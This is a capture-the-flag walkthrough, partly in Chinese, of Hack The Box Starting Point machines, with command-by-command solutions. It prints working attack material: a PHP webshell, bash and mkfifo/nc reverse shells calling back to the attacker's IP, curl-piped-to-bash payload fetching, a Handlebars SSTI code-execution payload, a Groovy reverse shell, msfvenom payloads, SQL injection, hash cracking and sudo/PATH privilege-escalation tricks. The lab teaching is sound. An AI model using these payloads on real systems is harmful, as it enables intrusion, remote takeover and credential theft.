




***歡迎來到HTB新手村***

Start here: https://app.hackthebox.com/starting-point

On environment Kali Linux and connect to HTB

Explain the linux command: https://explainshell.com/

Always ask google: https://www.google.com/

# 0.1 Meow

1. Check port 23 running service

   `nmap -p 23 -sV TARGET_IP`

2. telnet service is running, execute `telnet`

   `telnet TARGET_IP`

3. login with `root`

4. login succeed
5. `ls` to show what's there
6. `cat flag.txt`

# 0.2 Fawn

1. Check port 21 (FTP) running service

   `nmap -p 21 -sV TARGET_IP`

2. ftp service is running, execute `ftp`

   `ftp TARGET_IP`

3. login with name `anonymous` without password

4. `ls` and there is a *flag.txt*

5. copy the file to current directory

   ftp>`get flag.txt`

6. exit ftp by command `bye`, then `cat flag.txt`

# 0.3 Dancing

1. Check port 443 (SMB) running service

   `nmap -p 443 -sV TARGET_IP`

2. SMB service is running, see what is sharing in the server

   `smbclient -L TARGET_IP`

3. We are able to access with a blank password for the folder *WorkShares*

   `smbclient //TARGET_IP/WorkShares`

4. list the files in folder *WorkShares* smb: \> `ls`

5. Check the file *James.P* owns, the flag is inside *flag.txt*

6. smb: \James.P\> `get flag.txt`

# 0.4 Redeemer

1. Check the TCP port opened on the machine, `-T5` used for quicker enum, `-sS` is check for the TCP SYN scan (half of the TCP handshake), `-sV` is used to check the version of the service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. port 6379/tcp is opened for **Redis** service **version 5.0.7**, Redis is an **in-memory database**

3. connect to Redis server, `-h` means host

   `redis-cli -h TARGET_IP`

5. Connected success, select the first database in Redis: `select 0`

6. List all the keys in this database: `keys *`, the flag is in the *flag* key

6. Look at the value of the key *flag* by `get flag`

# 0.5 Explosion

1. Nmap scan:

   ```bash
   nmap -sCV <Target_IP>
   ```

   

2. Let's connect to the target IP via RDP using xfreerdp

   ```
   xfreerdp /v:<Target_IP>
   ```

3. However, we cannot successfully connect to the target IP, we have to specify the user also, let's try `Administrator`

   ```
   xfreerdp /v:<Target_IP> /u:Administrator
   ```

   Leave the password blank. Then, it's successfully connected

4. The flag is on the desktop

# 0.6 Preignition

1. Run nmap scan

   ```
   nmap -sCV <Target_IP>
   ```

   

2. Let's do enum php file on directory with gobuster

   ```bash
   gobuster dir -u <Target_IP> -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x php
   ```

   The result is `/admin.php` with status code 200, which means we can access it with brower

3. Then we go to `http://<Target_IP>/admin.php`, we input the username and password with `admin`, then we can see the flag

# 0.7 Mongod

1. Run namp scan (In this case, we have to run with **-p-** for TCP port scanning)

   ```bash
   nmap -p- -sV -T5 <Target_IP>
   ```

2. However, nmap is too slow to handle this case, let's try RustScan. Installation as below

   ```bash
   wget https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
   sudo dpkg -i rustscan_2.0.1_amd64.deb
   ```

3. Run rustscan

   ```
   rustscan -a <Target_IP>
   ```

   > Reference https://hack543.com/rustscan-intro/

4. Port 22, 27017 are opened, we can do `nmap -p 22,27017 -sCV IP` to further check the version and **run with script** of these two ports

   

   

   By running `nmap -sC` , we can know the database name of the mongodb

5. Connect to mongodb

   ```bash
   mongosh --host target_IP --port 27017
   ```

6. Type `help` to understand what command can be used

   ```
   help
   show dbs
   use sensitive_information
   show collections
   db.flag.find().pretty()
   ```

   

   The flag is there.

# 0.8 Synced

1. Run RustScan

   ```bash
   rustscan -a <Target_IP>
   ```

   Port 873 rsync is opened

2. Check the service version with nmap

   ```bash
   nmap -p 873 -sV <Target_IP>
   ```

   

3. The following command is used to see what is shared on the rsync server, without authentication

   ```
   rsync --list-only rsync://<Target_IP>
   ```

   

   And we can see there are two folders

4. The flag is inside `public` folder, download it then cat

   ```bash
   rsync rsync://<Target_IP>/public/flag.txt .
   cat flag.txt
   ```

# 1.1 Appointment

1. Check port 80 (HTTPS), and it is running

   `nmap -p 80 TARGET_IP`

2. Browse TARGET_IP in browser

3. Input `admin'#` for username (which is **SQL injection**), do not empty the password field

# 1.2 Sequel

1. Check running service, and port 3306 is running *SQL* service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. We can connect to the database with user **root** by a blank password

   `mysql -h TARGET_IP -u root`

3. After connecting to the database, check what schema is there: `show database;`

4. Use the schema htb: `use htb;`

5. See what tables in the schema: `show tables;`

6. See what is inside the *config* table: `select * from config;`, flag is there

# 1.3 Crocodile

1. Check running service on port 21 with version detection

   `nmap -p 21 -sV TARGET_IP`

2. Check HTTP running service (port 80) with version detection

   `nmap -p 80 -sV TARGET_IP`

3. Use **gobuster** to check any useful **php** file

   `gobuster dir -u TARGET_IP -x php -w /user/share/wordlists/dirb/common.txt`

   

4. Check the TARGET_IP/login.php in browser

5. As FTP is running, go check the file in FTP

6. `ftp TARGET_IP`, login as `anonymous`, then `ls`

7. ftp> `get allowed.userlist`, ftp> `get allowed.userlist.passwd`

8. input the user **`admin`** with the corresponding password in **.passwd** file to login

# 1.4 Responder

1. Check all ports: `nmap -p- -T5 -sS TARGET_IP`

   

2. Check directories: `gobuster dir -u TARGET_IP -w /user/share/wordlists/dirb/common.txt`

   

3. Append the domain name resolve with the ip in `/etc/hosts`, to access the webpage

   `echo "TARGET_IP unika.htb" | sudo tee -a /etc/hosts`

   > hosts檔案是一個用於儲存電腦網路中各節點資訊的電腦檔案。這個檔案負責將主機名對映到相應的IP位址。hosts檔案通常用於補充或取代網路中DNS的功能。和DNS不同的是，電腦的使用者可以直接對hosts檔案進行控制。

4. After accessing the page, we notice that the URL parameter **page** is vulenarble for local file inclusion, some wordlist example: https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

   `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`

   

5. Check whether the Responder is configured to listen **SMB**, then run responder on the `tun0` interface, use **python3.9** as **python3.10** does not work

   `python3.9 /usr/share/responder/Responder.py -I tun0`

   > config file is located at /usr/share/responder/Responder.conf

8. Tell the server to include a resource from our Responder SMB server by typing the URL

   `http://unika.htb/?page=//{responder_server_ip}/somefile`

8. There would be a hash response to us

   

8. Put the hash into a file `hash.txt` and use `john` to crack it with worldlist

   `john -w=/usr/share/wordlists/rockyou.txt hash.txt`

   

8. As we know that WinRM service is running, we can use **evil-winrm** to get a session to run the **Powershell** of the remote host

   `evil-winrm -i {TARGET_IP} -u administrator -p badminton`

8. the flag is in `C:\Users\mike\Desktop\flag.txt`, use `type` (PowerShell command ) to print the flag out

# 1.5 Three

1. Run a `nmap` scan: 

   ```shell
   nmap -sV TARGET_IP
   ```

   

2. As we know that **http** is on service, now we can use **Wappalyzer** to understand the technology stack of the website

   

3. And in the **contact** section, we can know that the domain of the email address is **thetoppers.htb**

4. In the absence of a DNS server, in order to resolve the hostname to IP address, we have to append the resolution into the `/etc/hosts` file

   ```shell
   echo "TARGET_IP thetoppers.htb" | sudo tee -a /etc/hosts
   ```

5. Let's enum for any subdomain using `gobuster`, we would use **seclists** word lists particularly for **subdomains**, reference https://www.kali.org/tools/seclists/

   ```shell
   apt-get update && apt -y install seclists
   ```

   ```shell
   gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
   ```

   

6. And we can know that there is a subdomain which is `s3`, let's append it to the `/etc/hosts` file

   > Amazon S3 https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html

   **Change the record from `TARGET_IP thetoppers.htb` to `TARGET_IP s3.thetoppers.htb` and reset the targer machine!

7. Let's interact with the S3 bucket by installing the `awscli` utility

   ```shell
   apt install awscli
   ```

8. Configure the `aws` with arbitrary value (`temp`) is a must for `aws` to work, and we assumed that the server is configured to not check authentication so any value is fine

   ```shell
   aws configure
   ```

   

9. Check all of the **S3 buckets** hosted by the server. Check the **objects and common prefixes** under the specified bucket, and we can know that the apache server use **S3 storage** as **webroot**, and the language is **PHP**

    > https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html

    ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 ls
    ```

    ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
    ```

    

11. Now we are going to create a **one-liner PHP** and upload it to the S3 bucket, the `system()` function use the URL parameter `cmd` as an input, to run **any linux command**

    ```shell
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```

    ```shell
    aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
    ```

12. Now go navigate the URL with the our shell.php (**Change the host record from `TARGET_IP s3.thetoppers.htb` to `TARGET_IP thetoppers.htb`)

    ```
    http://thetoppers.htb/shell.php?cmd=id
    ```

    

    As the above picture shows it runs the linux command `id` through the `cmd` URL parameter

13. Now let's create a reverse shell `shell.sh` containing the following **bash reverse shell payload** which will connect back to our local machine via the `tun0` IP address on port `1337`

    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/<TUN0_IP>/1337 0>&1
    ```

14. Then we start a `ncat` listener on our local port `1337`

    ```bash
    nc -nvlp 1337
    ```

15. Now we host the `shell.sh` on a `python3 http.server` by running the following command in the directory where `shell.sh` locates

    ```bash
    python3 -m http.server 8000
    ```

17. By using our one-liner PHP, insert the command we would like to execute in the `cmd` parameter, here we use the `curl` utility to fetch the bash reverse shell file from our local host, then pipe it to `bash` to execute the file

    ```
    http://thetopper.htb/shell.php?cmd=curl%20<VM_IP_Address>:8000/shell.sh|bash
    ```

    
    
    A successful reverse shell connected, now we can execute any command here. Finally, we can see the flag.
    

# 1.6 Ignition

1. Run nmap scan on port 80

   ```
   nmap -p 80 -sV <Target_IP>
   ```

   Port 80/TCP, Service http, Version nginx 1.14.2

2. Executing `curl -v <Target_IP>`, it will return status code 302 Found but not reaching the site, we need to add a domian name to IP address pairs in `/etc/hosts`

3. Then access `http://ignition.htb` in browser, now it can resolve the page out

4. Then we enum the directory of the page

   ```bash
   gobuster dir -u ignition.htb -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
   ```

   We found `/admin`, and access to `http://ignition.htb/admin`, there is a login page for Magento. We should not attempt to brute force this login form because it has antibruteforce measures implemented, we will need to guess the password.

   Refer to https://cybernews.com/best-password-managers/most-common-passwords/, we guess the username as `admin` and password as `qwerty123`

5. The flag is there after successful login

# 1.7 Bike

1. Run nmap scan on port 22, 80

   

2. We access the page `http://<Target_IP>` , there is an input box, we can test for **XSS** by inputing`<script>alert(0)</script>` , `<svg onload=alert(1)>` or testing **SSTI** by inputing `{{7*7}}` and submit

   Then we see the following error, and we can see the templating engine used within Node.JS is **handlebars**

    

3. After confirming the templating engine, we can find payload for it, get reference from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs

   ```
   {{#with "s" as |string|}}
     {{#with "e"}}
       {{#with split as |conslist|}}
         {{this.pop}}
         {{this.push (lookup string.sub "constructor")}}
         {{this.pop}}
         {{#with string.split as |codelist|}}
           {{this.pop}}
           {{this.push "return require('child_process').exec('whoami');"}}
           {{this.pop}}
           {{#each conslist}}
             {{#with (string.sub.apply 0 codelist)}}
               {{this}}
             {{/with}}
           {{/each}}
         {{/with}}
       {{/with}}
     {{/with}}
   {{/with}}
   ```
   
4. If run with Burp, we would change the payload into URL encoded, if run directly into the input box, just input the payload

5. However, we cannot directly use require to load `child_process` modules, error is coming out. We will try another way.

6. We discovered that **process** with the **mainModule** property could be used to run module, now modify our payload

   ```
   "return process.mainModule.require('child_process').execSync('whoami');"
   ```

7. Now input the payload into the input box, we command execution successfully, the flag is in **/root/flag.txt**

# 1.8 Funnel

1. Nmap scan on port 21,22

   ```bash
   nmap -sCV <Target_IP> -p 21,22
   ```

   

2. FTP service allow anonymous login. There is a **mail_backup** directory, inside there are two files: **weclome_28112022** and **password_policy.pdf**, we can use `file`, `exiftool` to look at the attribute of the files. Command `open .` to open current directory in file exploder

3. From the welcome email, we get a list of username **root, optimus, albert, andreas, christine, maria**

4. From the pdf, we know that the default password is **funnel123#!#**, we can do **password spraying** now. We can use `hydra`, `crackmapexec`, tools for password craking for different protocols. Before running it, we store the usernames row by row in `users.txt` for password spraying.

   ```bash
   crackmapexec ftp <Target_IP> -u users.txt -p 'funnel123#!#'
   ```

   

   As the result shown above, the password is not matched with the users

   Don't miss out to try `SSH`, user **chrsitine** is matched with the password

   ```bash
   crackmapexec ssh <Target_IP> -u users.txt -p 'funnel123#!#'
   ```

   

5. Then we `ssh christine@<Target_IP>`, and check which ports are opened (`-tl` means TCP socket which is listening for connection, `-n` means not resolve service name)

   ```bash
   ss -tln
   ```

   

6. We are interested at port 5432, a port that listening locally. The service is **PostgreSQL**

   > \* and [::] are listened by any interface, no matter internally or externally

7. We create a **SSH Local Port Forwarding**, to access the port service at the remote machine locally. The data is transported through the SSH tunnel which is encrypted and safe.

   ```bash
   ssh -L 1234:localhost:5432 christine@<Target_IP>
   ```

   Then we `nmap -sCV localhost -p 1234`, we can see that the remote port is tunnel to our local machine

   

8. Now we can access the PostgreSQL database with `psql` locally

   ```bash
   psql -h localhost -p 1234 -U christine
   ```

9. Connected, refer to https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql, then find the flag out

   (`\list` then `\c secrets` then `\d`  then `select * from flag;`)

   

# 1.9 Pennyworth

1. nmap scan on port 8080

   ```bash
   nmap -sCV <Target_IP> -p 8080
   ```

   

2. HTTP service with port 8080 is opened, let's access it through browser. Then we see there is a login page

   

3. By guessing the password, the username is **root** and the password is **password**

4. After login, we can actually go to **Dashboard**->**Manage Jenkins**->Tools and Actions-**Script Console**, at there you can run any **groovy** script. Let's generate a reverse shell at there, reference from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy.

   We have modify three things: `host`, `port`, `cmd=/bin/bash` if linux, `cmd=cmd.exe` if windows

   ```groovy
   String host="10.10.14.115";
   int port=1337;
   String cmd="/bin/bash";
   Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
   ```

   Create socket listener to listen the connection back before running above command, then upgrade the shell

   ```
   nc -lvnp 1337
   ```

5. Now got a reverse shell with root privilege back, the flag is in `/root/flag.txt`

# 1.10 Tactics

1. Run `nmap` scan on port 135, 139, 445 (result from running `rustscan`), `-Pn` would be used when firewall blocked ping probes, it can also be used for stealthy scan

   ```bash
   nmap -sCV <Target_IP> -p 135,139,445
   ```

   

2. Port 445 SMB service is running, let's list the administrative share. Please specifiy the username **Administrator**, which doesn't need a password.

   ```bash
   smbclient -L \\\\<Target_IP>\\ -U Administrator
   ```

   

3. Now go to the `C$` Disk to screen through the flag. The flag is usually at the desktop. Connect to the SMB share by

   ```bash
   smbclient //<Target_IP>/C$ -U Administrator
   ```

4. The flag can be get at and by `smb: \users\administrator\desktop\> get flag.txt`

# 2.1 Archetype

1. Run a `nmap` scan

   ```
   nmap -sV TARGET_IP
   ```

   

   Port **139 and 445** is opened for **SMB** on service. Port **1433** is opened for **Microsoft SQL Server 2017**

2. We would eumerate the SMB with the tool `smbclient` (-N: No password, -L List services)

   ```bash
   smbclient -N -L \\\\{TARGET_IP}\\
   ```

   

3. The Sharename with **backups** is non-Administrative share (*without $*). Let's go enum the backups share.

   ```
   smbclient -N \\\\{TARGET_IP}\\backups
   ```
   List the directory in backups share, dowload the file `prod.dtsConfig` for further offline inspection.

   ```
   smb: \> dir
   smb: \> get prod.dtsConfig
   smb: \> exit
   ```

   

   

4. We can see a User ID `sql_svc` with password `M3g4c0rp123` under the host `ARCHETYPE` in cleartext

5. As we got the credentials, we just need **Impacket** tool which includes a python script called `mssqlclient.py` to **connect and authenticate to the MSSQL server**. In Kali, the Impacket is preinstalled.

    ```bash
    locate mssqlclient.py
    cd /usr/share/doc/python3-impacket/examples/
    ```

6. Run the script in the format `domain`/`username`:`password`@`targetIP or name`, we would use *windows authentication* method

    ```
    python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@{TARGET_IP} -windows-auth
    ```

    And we are successfully authenticated to the MSSQL server and get a session of it.

7. Let's run `xp_cmdshell` and try command excution, we will use `powershell -c` for more features rather than regular command prompt

   ```bash
   SQL> enable_xp_cmdshell
   SQL> xp_cmdshell "powershell -c pwd"
   ```

8. Now attempt to get a **stable reverse shell**. Generate a reversed shell by `msfvenom` (`msfvenom -l payloads` to list the payloads it can provide)

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<TUN0_IP> -f exe -o winRevShell.exe
   ```

9. Use `msfconsole` to configure and handle the reverse shell connection (you can run `help search` to *show options* for the search modules function)

    ```bash
    msfconsole
    msf6> use exploit/multi/handler
    msf6 exploit(multi/handler)> set PAYLOAD windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler)> show options
    msf6 exploit(multi/handler)> set LHOST <TUN0_IP>
    msf6 exploit(multi/handler)> run
    ```

    

    Now the handler is ready for reverse connection from the target machine.

10. Let's upload our `winRevShell.exe` by python server.

    ```bash
    python3 -m http.server 80
    ```

11. Then `wget` it in the target machine through the SQL shell. As a `sql_svc` user, we would change directory to his user folder which has enough privilege to modify the folder.

      ```bash
      SQL> xp_cmdshell "powershell -c cd C:/Users/sql_svc/Documents; wget http://10.10.14.201/winRevShell.exe -outfile winRevShell.exe; dir"
      ```

      

12. Let's run the `winRevShell.exe`

       ```bash
       SQL> xp_cmdshell "powershell -c C:/Users/sql_svc/Documents/winRevShell.exe"
       ```

       

       Now we receive a meterpreter session (use **help** to see commands) from the target machine!

13. The **user** flag is in the user `sql_svc` desktop, `cat` it out.

       ```bash
       meterpreter> cat C:/Users/sql_svc/desktop/user.txt
       ```

      (You can also try other commands like `run post/windows/gather/credentials/[tap Tab]` to gather credentails on Windows, `run post/multi/recon/local_exploit_suggester` to suggest exploits)

14. As we noticed that there an `Admintrator` user in the Windows machine, we are going to use **winPEAS** (Windows Privilege Escalation Awesome Script) for privilege escalation. Download winPEASx64.exe from https://github.com/carlospolop/PEASS-ng/releases, then upload it to the target.

     ```bash
     root@kali[~]> wget https://github.com/carlospolop/PEASS-ng/releases/download/20220911/winPEASx64.exe
     meterpreter> upload winPEASx64.exe
     ```

15. Run it via *PowerShell*

     ```
     meterpreter> shell
     C:\Users\sql_svc\Documents> .\winPEASx64.exe
     ```

16. After running you got *many exploits information*, as a **service account**, it is worth to check the frequently access files or executed commands. Let's go check the **PowerShell history file**. The path is the following:

     

     ```powershell
     type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
     ```

     

     User `administrator` with password `MEGACORP_4dm1n!!` is there.

17. As **port 5985 (Microsoft Windows Remote Management)** is opened, now use `evil-winrm` to login as `administrator`

     ```bash
     evil-winrm -u administrator -p 'MEGACORP_4dm1n!!' -i TARGET_IP
     ```

      

     The root flag is in the `C:\Users\Administrator\Desktop\root.txt`!

# 2.2 Oopsie

1. `nmap` scan with script

   ```bash
   nmap -sCV TARGET_IP
   ```

   

2. We use **Burp Suite** (Proxy tool, which can be used to *intercept the web traffic*) to passively spider the website. We turn the **intercept mode off** first, to spider the site into a sitemap that weren't visible while browsing (go to **Burp, Target->Site map**)

   

4. We particularly interested on the login script js file. Let's dive into the login page and **Login as Guest**

5. Go to the http://10.129.61.3/cdn-cgi/login/admin.php?content=accounts&id=1, we can enum the account infomation by changing the **id** paramemeter, we can get the Admin Access ID which is **34322**

6. Then go to the cookies, we can manipulate it to escalate ourselves into an **Admin**, just change the cookies as below, then refresh the page

   

7. Now we have got the privilege to upload any file into the web, we would like to upload a **one-liner php**. We quickly make one by the command below

   ```bash
   echo "<?php system(\$_GET['cmd']);?>" > shell.php
   ```

   Then upload it (Remember to upload with the ***Brand Name***!)

   

8. However, we don't know where the file is uploaded, let's use **gobuster** to enum the directory

   ```bash
   gobuster dir -u <TARGET_IP> -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
   ```

   

   We are interested to the **/uploads** files, let's just try http://10.129.61.3/uploads/shell.php?cmd=id

   

   The shell.php is inside the **/uploads** directory, and we already got a webshell!

9. Now prepare a reverse shell on the url, it need to be **url encoded** to make it works

   ```bash
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TUN0_IP> <Port> >/tmp/f
   ```

   ```
   http://10.129.61.3/uploads/shell.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.15.117+1337+%3E/tmp/f
   ```

   We can execute our command through the **Burp repeater**, and encoded in URL by **Ctrl+U**

   

   

10. Use **nc** on attacker machine to listen the connecting back shell

    ```bash
    nc -lnvp <Port>
    ```

11. Let's upgrade the shell to make it fully interactive (optional)

    ```bash
    # In reverse shell
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl-Z
    # In Kali
    $ stty raw -echo; fg
    Enter
    # In reverse shell
    $ export TERM=xterm-256color
    Enter
    ```

    > Reference: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

12. Now we can view **all the source code and files** on the server

    `cat /etc/passwd` we know there is a user **Robert**

    `ls /var/www/html` we can view the source code of the website

    `cd /var/www/html/cdn-cgi/login; grep -R -i "pass" *` grep the **password** from all files! (go to the login page folder)

    

    The web UI login username is **admin** and password is **MEGACORP_4dm1n!!**

    `cat db.php` see any credentials here, we got user **robert** password **M3g4C0rpUs3r!**

    

13. Now we can escalte from **www-data** to **robert**, by `su robert`, the flag is in **/home/robert/user.txt** (f2c74ee8db7983851ab2a96a44eb7981)

    

    We can check whether the current user (robert) can run sudo or not by `sudo -l`

14. According to the hints from HTB, we have to find files owned by **bugtracker** group

    ```bash
    find / -group bugtracker 2>/dev/null
    ```

    

15. And we discover that this executible is ran by the **root** user privileges, which means its **SUID** is set

    

16. There is a way to track all the files in / that have the SUID set

    ```bash
    find / -perm -4000 -type f 2>/dev/null
    ```

18. Now we know that the **/usr/bin/bugtracker** ran **cat** as **root** privilege, we can **modify the $PATH** environment variable to masquerade the **/bin/cat** as **/tmp/cat**, so that /tmp/cat would be ran when calling `cat`

    ```bash
    echo $PATH #check $PATH
    export PATH=/tmp:$PATH #concatenate /tmp in front of $PATH
    touch /tmp/cat #create our own cat to run any command
    chmod +x /tmp/cat #to make it executable
    echo "/bin/sh" > /tmp/cat #command to create a shell, in this case it would be a root shell
    ```

    

20. Now run the **/usr/bin/bugtracker** again, it would generate a root shell! The flag is in `/root/root.txt`, use `/bin/cat /root/root.txt ` to print as running `cat` would call `/tmp/cat` (af13b0bee69f8a877c3faf667f7beacf)

    

# 2.3 Vaccine

1. nmap scan

   ```
   nmap -sCV 10.129.112.178
   ```

   FTP, SSH, HTTP is running. **Anonymous** FTP login is allowed

   

2. Then we **ftp** the target IP with usrname `anonymous` and empty password. There is a file **backup.zip**. Use command `get backup.zip` to download it to our local machine.

   

3. Then we try to unzip the backup.zip. However, it needs a password. We would try `zip2john backup.zip` 

   

   > if we `locate 2john` in Kali, we would find many **2john** password hash generator!

4. After we got the password hash, we can run **john the ripper**, the password is *741852963*

   ```bash
   john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
   ```

   

5. Now we `unzip` the backup.zip. From index.php, we find the credential by command `cat index.php | grep -i "pass"` , username *admin* and password *2cb42f8734ea607eefed3b70af13bbd3* encoded by md5

   

6. We then go to https://crackstation.net/, to check the password of that hash (*qwert789*)

   

7. After we log in, we see there is a search bar, which has SQL injection vulnerability, we can check it by input `' or '1'='1` then see if it can show all records.

   

8. We can try `sqlmap` to automate the process of detecting and exploiting SQL injection. The option `--os-shell` allows us to get **command execution** via the SQLi. But before that, we have to save down the **request** (with parameter, cookies, URL) from the **Burp** as `sqlmap` requires a parameter of **.req** to send

   

   Paste the above request into a new file `new.req`

   ```bash
   vi new.req
   ```

9. Now try `sqlmap`

   ```bash
   sqlmap -r new.req
   ```

   

   From the above results, `sqlmap` provides the possible SQLi payload

10. Now try to get the interactvie shell

    ```bash
    sqlmap -r new.req --os-shell
    ```

    Then we would get the shell, and run `ls`, `whoami `, etc.

11. To get a more stable shell, we would like to create a **reverse shell** via this shell. Type the following command on the `os-shell>` shell, `nc -lvnp 1337` listen on local machine **first**

    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.117 1337 >/tmp/f
    ```

12. Upgrade the shell

    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # Ctrl-Z
    stty raw -echo; fg
    # Enter
    export TERM=xterm-256color
    # Enter
    ```
    
13. We would always interested on the souce code of the webpage

    ```bash
    cd /var/www/html; grep -i -R "pass" *
    ```

    

    As the result above, we have got the password of the current user *postgres* *P@s5w0rd!*

14. We have got the user flag which is in `~/user.txt` (ec9b13ca4d6229cd5cc1e09980965bf7)

    

15. After we got the password, we can check what the current user can run by `sudo -l`

    

16. As SSH is opened, and the reverse shell is easily disconnected, it's better to use **ssh**

    ```bash
    ssh postgres@10.129.112.178
    ```

17. For a further **privilege escalation**, we can take reference from https://gtfobins.github.io/. GTFOBins is a collection about how to live off the land when you only have certain binaries available. As the user can run **/bin/vi** as **root** using **sudo**, we will look for the **vi** binary on this page (https://gtfobins.github.io/gtfobins/vi/)

    

    We would like to create a **root shell** by using vi **method (b)** (*method (a) does not gaurantee*)

    ```bash
    # Method (a)
    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh' /dev/null
    ```

    > We are unable to execute the following command because sudo is restricted to only /bin/vi
    > /etc/postgresql/11/main/pg_hba.conf

    ```bash
    # Method (b)
    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
    # in vi editor
    :set shell=/bin/sh
    :shell
    ```

18. The flag is in **/root/root.txt** (*dd6e058e814260bc70e9bbdef2715849*)

    

# 2.4 Unified

1. namp scan, we have got **22, 6789, 8080, 8443, 8843, 8880** ports opened, which are **22 SSH, 6789 ibm-db2-admin, 8080 http-proxy, 8443 ssl/nagios-nsca Nagios NSCA, 8843 ssl/unknown, 8880 cddbp-alt**

   ```bash
   nmap -sCV {Target_IP} -p-
   ```

   

   

2. We then try go to **http://{Target_IP}:8080**, it would redirect us to port **8443**

   

3. As the above image shown, it is a UniFi Web Server, we would like to know its expoilts

   ```
   searchsploit unifi 6
   ```

   

   We are interested on the UniFi exploits, let's examine this

   ```
   searchsploit -x php/webapps/39268.java
   ```

   However, this seems not the one we can make use of.

